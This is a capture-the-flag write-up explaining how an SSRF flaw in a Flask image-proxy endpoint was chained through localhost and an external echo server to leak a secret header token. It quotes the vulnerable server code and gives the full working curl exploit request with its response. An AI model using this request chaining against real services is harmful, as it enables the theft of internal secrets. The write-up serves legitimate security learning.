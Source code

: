 # Challenge localhost

81 Points

## Challenge

We came up with some ingenious solutions to the problem of password reuse. For users, we don't use password auth but send around mails instead. This works well for humans but not for robots. To make test automation possible, we didn't want to send those mails all the time, so instead we introduced the localhost header. If we send a request to our server from the same host, our state-of-the-art python server sets the localhost header to a secret only known to the server. This is bullet-proof, luckily.

http://35.207.189.79/

Difficulty Estimate: Medium

## Solution

The link points to the paperbots web application. From the source code of the server we learned, that the flag is set with the following method:

```
@app.after_request
def secure(response: Response):
    if not request.path[-3:] in ["jpg", "png", "gif"]:
        response.headers["X-Frame-Options"] = "SAMEORIGIN"
        response.headers["X-Xss-Protection"] = "1; mode=block"
        response.headers["X-Content-Type-Options"] = "nosniff"
        response.headers["Content-Security-Policy"] = "script-src 'self' 'unsafe-inline';"
        response.headers["Referrer-Policy"] = "no-referrer-when-downgrade"
        response.headers["Feature-Policy"] = "geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; " \
                                             "camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; " \
                                             "fullscreen *; payment 'self'; "
        if request.remote_addr == "127.0.0.1":
            response.headers["X-Localhost-Token"] = LOCALHOST

    return response
```

So we need to create a request with the remote address as localhost and still be able to see the response. Luckily there is an interesting endpoint:

```
# Proxy images to avoid tainted canvases when thumbnailing.
@app.route("/api/proxyimage", methods=["GET"])
def proxyimage():
    url = request.args.get("url", '')
    parsed = parse.urlparse(url, "http")  # type: parse.ParseResult
    if not parsed.netloc:
        parsed = parsed._replace(netloc=request.host)  # type: parse.ParseResult
    url = parsed.geturl()

    resp = requests.get(url)
    if not resp.headers["Content-Type"].startswith("image/"):
        raise Exception("Not a valid image")

    # See https://stackoverflow.com/a/36601467/1345238
    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response

```

Now we can use proxyimage to load other ressources. We could also load the proxy itself :)

But as restriction we can only load "images". We must response with a HTTP header flag starting with "image/". For this we downloaded a simple python echo server and modified it a bit to return everytime the Content-Type: image/png. The script echo.py do the job.


The final request:

```
root@blackbox:# curl -v "http://35.207.189.79/api/proxyimage?url=http://127.0.0.1:8075/api/proxyimage?url=http://151.217.250.118:8080/"
*   Trying 35.207.189.79...
* TCP_NODELAY set
* Connected to 35.207.189.79 (35.207.189.79) port 80 (#0)
> GET /api/proxyimage?url=http://127.0.0.1:8075/api/proxyimage?url=http://151.217.250.118:8080/ HTTP/1.1
> Host: 35.207.189.79
> User-Agent: curl/7.62.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: image/png
< Content-Length: 0
< Connection: keep-alive
< Server: BaseHTTP/0.3 Python/2.7.15rc1
< Date: Sat, 29 Dec 2018 11:54:37 GMT
< X-Frame-Options: SAMEORIGIN
< X-Xss-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< Content-Security-Policy: script-src 'self' 'unsafe-inline';
< Referrer-Policy: no-referrer-when-downgrade
< Feature-Policy: geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; fullscreen *; payment 'self';
< X-Localhost-Token: 35C3_THIS_HOST_IS_YOUR_HOST_THIS_HOST_IS_LOCAL_HOST
< 
* Connection #0 to host 35.207.189.79 left intact

```

The token can be found as HTTP header :fire:
